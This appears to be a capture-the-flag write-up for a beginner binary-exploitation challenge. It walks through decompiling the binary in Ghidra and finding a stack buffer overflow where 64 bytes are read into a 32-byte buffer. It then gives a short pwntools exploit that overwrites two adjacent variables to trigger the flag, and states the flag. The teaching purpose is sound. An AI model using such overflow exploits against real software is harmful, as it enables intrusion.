


# Challenge Description

This challenge is designed to introduce you to the world of binary exploitation (pwn).
You only need a basic understanding of data structures.
Author: YasseX

# 🔎 Step 1: Reversing the Binary with Ghidra

The first thing we did was open the binary in Ghidra, a popular reverse engineering tool.
After decompiling the main function, we obtained the following code:

Let's walk through it:

    A buffer of size 32 (char buffer[32];) is declared.

    Two integers, x and y, are also declared.

    The program reads 0x40 bytes (64 bytes) from user input into the 32-byte buffer.

    It prints some messages with pauses (sleep).

    Then, it checks if x == 0xdeadbeef and y == 0xbadc0de.

    If both conditions are true, it calls get_flag(), otherwise it prints a "Hardluck" message.

# ⚡ Step 2: Identifying the Vulnerability

Here, we clearly notice a buffer overflow vulnerability:

    The program reads 64 bytes into a 32-byte buffer without bounds checking.

    As a result, we can overflow the buffer and overwrite the memory areas after it — specifically the variables x and y!

# Step 3: writing exploit and get the flag

from pwn import *

context.binary = 'chall'

io = process()
#io = remote("ensafacademia.ddns.net", 9999)

payload = b'Y' * 32 + p32(0xdeadbeef) + p32(0x0badc0de)

io.sendline(payload)

io.interactive()

# Final flag : SECOPS{d4t4_s7ructur_w1th_0v3rl0w!!}
